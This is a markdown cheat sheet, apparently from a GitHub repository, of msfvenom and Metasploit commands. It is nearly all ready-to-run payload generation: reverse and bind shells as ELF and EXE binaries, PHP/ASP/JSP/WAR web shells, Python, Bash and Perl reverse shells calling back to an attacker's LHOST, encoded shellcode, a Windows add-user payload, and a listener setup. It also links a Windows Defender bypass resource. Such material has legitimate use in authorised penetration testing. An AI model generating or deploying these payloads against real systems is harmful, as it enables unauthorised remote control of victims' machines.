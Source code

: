 # Msfvenom

### Creating a payload

- `msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]`

To view list of payloads: `msfvenom -l payloads`
To view the payload options: `msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options`

### Creating a payload with encoding

- `msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile`

### Creating a payload using a template

- `msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile`

### Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```
---

### Creating Binaries

Linux
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`	
- `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`

Windows
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`	
- `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

---

### Web Payloads

PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

---

### Scripting Payloads

Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Creating an Msfvenom Payload with an encoder while removing bad charecters:
```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

---

Shellcode: For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

---

### Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
- https://netsec.ws/?p=331
- https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
- https://www.offensive-security.com/metasploit-unleashed/binary-payloads/

